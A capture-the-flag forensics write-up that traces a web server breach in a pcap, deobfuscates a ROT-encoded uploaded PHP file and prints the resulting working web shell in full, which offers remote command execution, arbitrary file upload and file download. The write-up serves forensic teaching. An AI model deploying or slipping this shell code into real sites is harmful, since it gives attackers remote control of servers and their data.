


# [Cyber Apocalypse 2023](index.md) - Forensics - Roten

> The iMoS is responsible for collecting and analyzing targeting data across various galaxies. The data is collected through their webserver, which is accessible to authorized personnel only. However, the iMoS suspects that their webserver has been compromised, and they are unable to locate the source of the breach. They suspect that some kind of shell has been uploaded, but they are unable to find it. The iMoS have provided you with some network data to analyse, its up to you to save us.

We're given a `.pcap` file, so to Wireshark we go.

Studying this pcap file for a while, it's apparent that this is a pcap from a web server, and it allows authorized users to view maps and upload new maps to it.

Just scanning the file quick with my eyeballs I notice a large number of http `GET` requests apparently trying to find `galacticmap.php`. I've added a few columns - "Status Code" and "Rquest method" - in wireshark as I searched the file, to help make these easier to spot.



Following those to where they _stop_, we can see that they eventually turn into a web shell of some sort, with commands coming in via the query string.

```
/uploads/galacticmap.php?dir=%2Fvar%2Fwww%2Fhtml%2Fuploads&cmd=whoami
```
So, the `galacticmap.php` file _is_ the webshell (so the prompt is correct to assume the web server is compromised).

It looks like the attacker's IP is `146.70.38.48` - this may help us find more info later. We can find all activity to and from this ip with the filter `ip.addr == 146.70.38.48`.

The prompt asks us to find the _source_, so lets look at where these requests start. The webshell found it's way into the `/uploads` directory, so likely there is an upload mechanism on the site that was abused, and uploads need to come from `POST` requests.


Filtering for `POST` requests with the filter `http.request.method == "POST"` we can see several requests to `map-update.php` and `results_display.php`. One of the `POST` requests to `map-update.php` had an `application/x-php` mime type, which is out of the ordinary, and is likely the webshell getting uploaded for the first time.

The attacker then didn't know _where_ the files get uploaded to, so had to use a script to try directories until they found it. While `/uploads` was fairly obvious in this challenge, it might not be in the real world, and this behaviour is something that one might encounter.

In Wireshark, we can right click this packet (which wireshark has numbered `1929`), select __Follow__, then __HTTP Stream__, to see the entire HTTP conversation. If we wanted to see this entire conversation in the main Wireshark window, we can use the filter `tcp.stream eq 173`.



Looks like a giant blob of obfuscated PHP code.

It looks like the code is encrypted or encoded - it still sort of looks like code, just the letters are jumbled up, so it's likely using an [ROT](https://en.wikipedia.org/wiki/ROT13) cipher (also the challenge is called `roten`, which is likely a reference to this and not just a misspelling). `ROT` a shift-based encryption cipher that simply shifts letters a certain number of characters in one direction or another (the Caesar Cipher is an example of this).

Since the script has to piece that mess together in order to make it work, we can use the script to deobfuscate itself. We can copy this code to a system that has PHP on it, and modify the script so that it shows us what the deobfuscated code looks like rather than running it. Kali Linux has php bundled with it, so I'm using a Kali VM to do this. This is potentially dangerous to do, so I'm making sure to use a throw-away system that can be easily formatted/reloaded, or thrown into the nearest river, just in case.

I've saved the above file as `roten.php` on a system with PHP installed, and now we need to tweak the end of the file.
It's __very important__ that we change the `eval` to `echo`, so it prints to the screen instead of installing malware on our system.

```php
$bhrTeZXazQ = "?>$bhrTeZXazQ";
eval( $bhrTeZXazQ );
?>
```

```php
$bhrTeZXazQ = "?>$bhrTeZXazQ";
echo($bhrTeZXazQ);
?>
```

Now we can just run it using the PHP interpreter and see what it says.

```
php extracted.php
```
This shows us the code below.

```php
?><?php

if (isset($_GET['download'])) {
        $file = $_GET['download'];
        if (file_exists($file)) {
            header('Content-Description: File Transfer');
            header('Content-Type: application/octet-stream');
            header('Content-Disposition: attachment; filename="'.basename($file).'"');
            header('Expires: 0');
            header('Cache-Control: must-revalidate');
            header('Pragma: public');
            header('Content-Length: ' . filesize($file));
            readfile($file);
            exit;
        }
}

?>

<html>
<!-- Latest compiled and minified CSS -->
<link rel="stylesheet" href="http://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/css/bootstrap.min.css">

<!-- jQuery library -->
<script src="https://ajax.googleapis.com/ajax/libs/jquery/1.12.2/jquery.min.js"></script>

<!-- Latest compiled JavaScript -->
<script src="http://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/js/bootstrap.min.js"></script>

<div class="container">


<?php

function printPerms($file) {
        $mode = fileperms($file);
        if( $mode & 0x1000 ) { $type='p'; }
        else if( $mode & 0x2000 ) { $type='c'; }
        else if( $mode & 0x4000 ) { $type='d'; }
        else if( $mode & 0x6000 ) { $type='b'; }
        else if( $mode & 0x8000 ) { $type='-'; }
        else if( $mode & 0xA000 ) { $type='l'; }
        else if( $mode & 0xC000 ) { $type='s'; }
        else $type='u';
        $owner["read"] = ($mode & 00400) ? 'r' : '-';
        $owner["write"] = ($mode & 00200) ? 'w' : '-';
        $owner["execute"] = ($mode & 00100) ? 'x' : '-';
        $group["read"] = ($mode & 00040) ? 'r' : '-';
        $group["write"] = ($mode & 00020) ? 'w' : '-';
        $group["execute"] = ($mode & 00010) ? 'x' : '-';
        $world["read"] = ($mode & 00004) ? 'r' : '-';
        $world["write"] = ($mode & 00002) ? 'w' : '-';
        $world["execute"] = ($mode & 00001) ? 'x' : '-';
        if( $mode & 0x800 ) $owner["execute"] = ($owner['execute']=='x') ? 's' : 'S';
        if( $mode & 0x400 ) $group["execute"] = ($group['execute']=='x') ? 's' : 'S';
        if( $mode & 0x200 ) $world["execute"] = ($world['execute']=='x') ? 't' : 'T';
        $s=sprintf("%1s", $type);
        $s.=sprintf("%1s%1s%1s", $owner['read'], $owner['write'], $owner['execute']);
        $s.=sprintf("%1s%1s%1s", $group['read'], $group['write'], $group['execute']);
        $s.=sprintf("%1s%1s%1s", $world['read'], $world['write'], $world['execute']);
        return $s;
}


$dir = $_GET['dir'];
if (isset($_POST['dir'])) {
        $dir = $_POST['dir'];
}
$file = '';
if ($dir == NULL or !is_dir($dir)) {
        if (is_file($dir)) {
                echo "enters";
                $file = $dir;
                echo $file;
        }
        $dir = './';
}
$dir = realpath($dir.'/'.$value);
##flag = HTB{W0w_ROt_A_DaY}
$dirs = scandir($dir);
echo "<h2>Viewing directory " . $dir . "</h2>";
echo "\n<br><form action='".$_SERVER['PHP_SELF']."' method='GET'>";
echo "<input type='hidden' name='dir' value=".$dir." />";
echo "<input type='text' name='cmd' autocomplete='off' autofocus>\n<input type='submit' value='Execute'>\n";
echo "</form>";
echo "\n<br>\n<div class='navbar-form'><form action='".$_SERVER['PHP_SELF']."' method='POST' enctype='multipart/form-data'>\n";
echo "<input type='hidden' name='dir' value='".$_GET['dir']."'/> ";
echo "<input type='file' name='fileToUpload' id='fileToUpload'>\n<br><input type='submit' value='Upload File' name='submit'>";
echo "</div>";

if (isset($_POST['submit'])) {
        $uploadDirectory = $dir.'/'.basename($_FILES['fileToUpload']['name']);
        if (file_exists($uploadDirectory)) {
        echo "<br><br><b style='color:red'>Error. File already exists in ".$uploadDirectory.".</b></br></br>";
        }
        else if (move_uploaded_file($_FILES['fileToUpload']['tmp_name'], $uploadDirectory)) {
                echo '<br><br><b>File '.$_FILES['fileToUpload']['name'].' uploaded successfully in '.$dir.' !</b><br>';
        } else {
                echo '<br><br><b style="color:red">Error uploading file '.$uploadDirectory.'</b><br><br>';

        }

}

if (isset($_GET['cmd'])) {
        echo "<br><br><b>Result of command execution: </b><br>";
        exec('cd '.$dir.' && '.$_GET['cmd'], $cmdresult);
        foreach ($cmdresult as $key => $value) {
                echo "$value \n<br>";
        }
}
echo "<br>";
?>

<table class="table table-hover table-bordered">
    <thead>
      <tr>
        <th>Name</th>
        <th>Owner</th>
        <th>Permissions</th>
      </tr>
    </thead>
    <tbody>
<?php
foreach ($dirs as $key => $value) {
        echo "<tr>";
        if (is_dir(realpath($dir.'/'.$value))) {
                echo "<td><a href='". $_SERVER['PHP_SELF'] . "?dir=". realpath($dir.'/'.$value) . "/'>". $value . "</a></td><td>". posix_getpwuid(fileowner($dir.'/'.$value))[name] . "</td><td> " . printPerms($dir) . "</td>\n";
        }
        else {
                echo "<td><a href='". $_SERVER['PHP_SELF'] . "?download=". realpath($dir.'/'.$value) . "'>". $value . "</a></td><td>". posix_getpwuid(fileowner($dir.'/'.$value))[name] ."</td><td> " . printPerms($dir) . "</td>\n";
        }
        echo "</tr>";
}
echo "</tbody>";
echo "</table>";


?>


</div>
</html>
```

 The code is definitely a web shell, and it also contains our flag as a comment - `HTB{W0w_ROt_A_DaY}`.